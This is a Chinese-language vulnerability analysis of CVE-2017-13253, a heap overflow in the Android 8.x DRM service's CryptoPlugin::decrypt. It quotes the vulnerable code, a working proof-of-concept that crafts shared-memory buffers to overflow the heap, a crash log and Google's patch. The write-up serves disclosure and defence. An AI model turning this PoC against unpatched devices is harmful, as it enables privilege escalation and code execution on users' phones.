

## Android Drm service 堆溢出漏洞(CVE-2017-13253)
> zimperium发表于2018年03月15日

### 漏洞描述

Android 8.0版本和8.1版本中的CryptoPlugin.cpp文件的CryptoPlugin::decrypt存在提权漏洞，该漏洞源于程序缺少边界检测。远程攻击者可利用该漏洞执行任意代码或造成拒绝服务（越边界写入）。

### 影响范围

android 8.0/8.1

### 漏洞详情

#### 漏洞位置

CryptoPlugin.cpp文件的CryptoPlugin::decrypt, 代码前置做了很多安全校验，但百密一疏，漏掉了一个判断解密数据加目标偏移是否会大于整个堆大小的判断，导致最后直接 memcpy 时，会形成堆溢出。

```cpp
if (destination.mType == kDestinationTypeSharedMemory) { 
    //判断destination的类型就结束了，没有大小的判断
}
```

```cpp
for (int32_t i = 0; i < numSubSamples; ++i) {    
    //这里会相加多个subSamples，并判断是否超出
    CryptoPlugin::SubSample &ss = subSamples[i];
    if (sumSubsampleSizes <= SIZE_MAX - ss.mNumBytesOfEncryptedData) {
        sumSubsampleSizes += ss.mNumBytesOfEncryptedData;
    } else {
        overflow = true;
    }
}
```

```cpp
if ((size_t)offset > source.mSharedMemory->size() - totalSize) {   
    //这里判断了source的大小，这个totalSize就是要处理subSamples的大小总和。
    result = -EINVAL;
} else {
    result = decrypt(key, iv, mode, pattern, source, offset,
            subSamples, numSubSamples, destination, &errorDetailMsg);
}
```

```cpp
if (mode == kMode_Unencrypted) {
    size_t offset = 0;
    for (size_t i = 0; i < numSubSamples; ++i) {
        const SubSample& subSample = subSamples[i];

        if (subSample.mNumBytesOfEncryptedData != 0) {
            errorDetailMsg->setTo(
                    "Encrypted subsamples found in allegedly unencrypted "
                    "data.");
            return android::ERROR_DRM_DECRYPT;
        }

        if (subSample.mNumBytesOfClearData != 0) {
            memcpy(reinterpret_cast<uint8_t*>(dstPtr) + offset,
                    reinterpret_cast<const uint8_t*>(srcPtr) + offset,
                    subSample.mNumBytesOfClearData);
            //由于安全校验不完整，存在可能offset + data_size > dstPtr.size 的情况，导致溢出
            offset += subSample.mNumBytesOfClearData;
        }
    }
    return static_cast<ssize_t>(offset);
}
```



#### 漏洞触发条件


#### 漏洞原理

### poc/exp

POC: [PoC code for CVE-2017-13253.](https://github.com/tamirzb/CVE-2017-13253)

```cpp
sp<MemoryHeapBase> heap = new MemoryHeapBase(DATA_SIZE);  //申请一个heap块。
    // This line is to merely show that we have full control over the data
    // written in the overflow.
    memset(heap->getBase(), 'A', DATA_SIZE); //这里填充heap，大小为0x2000
    sp<MemoryBase> sourceMemory = new MemoryBase(heap, 0, DATA_SIZE);  //源内存，设置了offset为0,大小为0x2000也就是total共0x2000
    sp<MemoryBase> destMemory = new MemoryBase(heap, DATA_SIZE - DEST_OFFSET, 
        DEST_OFFSET);  
    //目的内存，设置偏移比较巧妙，正好是DATA_SIZE - DEST_OFFSET，大小为DEST_OFFSET，这样设置的目的正好可以保证第二个函数中对destination的检测是正确的。
    int heapSeqNum = crypto->setHeap(heap);
    if (heapSeqNum < 0) {
        fprintf(stderr, "setHeap failed.\n");
        return;
    }
   
   //下面这些代码都是设置一些decrypt函数的相关参数。只需保证能通过函数检查就行。
    CryptoPlugin::Pattern pattern = { .mEncryptBlocks = 0, .mSkipBlocks = 1 };
    ICrypto::SourceBuffer source = { .mSharedMemory = sourceMemory,
        .mHeapSeqNum = heapSeqNum };
    // mNumBytesOfClearData is the actual size of data to be copied.
    CryptoPlugin::SubSample subSamples[] = { {
        .mNumBytesOfClearData = DATA_SIZE, .mNumBytesOfEncryptedData = 0 } };
    ICrypto::DestinationBuffer destination = {
        .mType = ICrypto::kDestinationTypeSharedMemory, .mHandle = NULL,
        .mSharedMemory = destMemory };
 
    printf("decrypt result = %zd\n", crypto->decrypt(NULL, NULL,
        CryptoPlugin::kMode_Unencrypted, pattern, source, 0, subSamples,
        ARRAY_SIZE(subSamples), destination, NULL));   
        //然后就ipc调用decrypt函数
```

PoC 运行结果：
```bash
Build fingerprint: 'google/walleye/walleye:8.1.0/OPM1.171019.011/4448085:user/release-keys'
Revision: 'MP1'
ABI: 'arm'
pid: 761, tid: 5232, name: HwBinder:761_1  >>> /vendor/bin/hw/android.hardware.drm@1.0-service <<<
signal 11 (SIGSEGV), code 2 (SEGV_ACCERR), fault addr 0xee20f000
    r0 ee20f000  r1 ee20d021  r2 00001eff  r3 00000001
    r4 00000001  r5 00000000  r6 ed117008  r7 00000000
    r8 00000000  r9 fffff82a  sl ee20d000  fp ee20efff
    ip 08000000  sp ed2893c8  lr ed369e6b  pc edda7f0c  cpsr 20070010

backtrace:
    #00 pc 00018f0c  /system/lib/libc.so (__memcpy_base+244)
    #01 pc 00004e67  /vendor/lib/mediadrm/libdrmclearkeyplugin.so (clearkeydrm::CryptoPlugin::decrypt(bool, unsigned char const*, unsigned char const*, android::CryptoPlugin::Mode, android::CryptoPlugin::Pattern const&, void const*, android::CryptoPlugin::SubSample const*, unsigned int, void*, android::AString*)+82)
    ...

memory map (205 entries):
(fault address prefixed with --->)
    ...
    ee20d000-ee20efff rw-         0      2000  /dev/ashmem/MemoryHeapBase (deleted)
--->ee20f000-ee20ffff ---         0      1000  [anon:thread signal stack guard page]
    ...
```

### 漏洞修复建议

google 已发布相关补丁：https://android.googlesource.com/platform/frameworks/av/+/871412cfa05770cfd8be0a130b68386775445057%5E%21/#F0

```cpp
//    Fix potential buffer overflow in mediadrmserver
//
//    bug:71389378
//    test: gts media tests
//
//     Change-Id: Ic7d4b456bc874b92fbe202e3dafb7ceac747ebc7
//     (cherry picked from commit 5231cc164fe040a3ab5fcb28baae4e0a4f9fdf4c)

// diff --git a/drm/libmediadrm/ICrypto.cpp b/drm/libmediadrm/ICrypto.cpp
// index 8506d95..37dc83b 100644
// --- a/drm/libmediadrm/ICrypto.cpp
// +++ b/drm/libmediadrm/ICrypto.cpp
// @@ -16,14 +16,14 @@
 
 //#define LOG_NDEBUG 0
 #define LOG_TAG "ICrypto"
-#include <utils/Log.h>
-
 #include <binder/Parcel.h>
 #include <binder/IMemory.h>
+#include <cutils/log.h>
 #include <media/ICrypto.h>
 #include <media/stagefright/MediaErrors.h>
 #include <media/stagefright/foundation/ADebug.h>
 #include <media/stagefright/foundation/AString.h>
+#include <utils/Log.h>
 
 namespace android {
 
@@ -362,6 +362,13 @@
                     reply->writeInt32(BAD_VALUE);
                     return OK;
                 }
+                sp<IMemory> dest = destination.mSharedMemory;
+                if (totalSize > dest->size() ||
+                        (size_t)dest->offset() > dest->size() - totalSize) {
    // 增加了对解密后数据大于目标区域大小，或加上偏移后大于目标区域大小（前者多余了）这两个会导致堆溢出的判断
+                    reply->writeInt32(BAD_VALUE);
+                    android_errorWriteLog(0x534e4554, "71389378");
+                    return OK;
+                }
             }
 
             AString errorDetailMsg;
```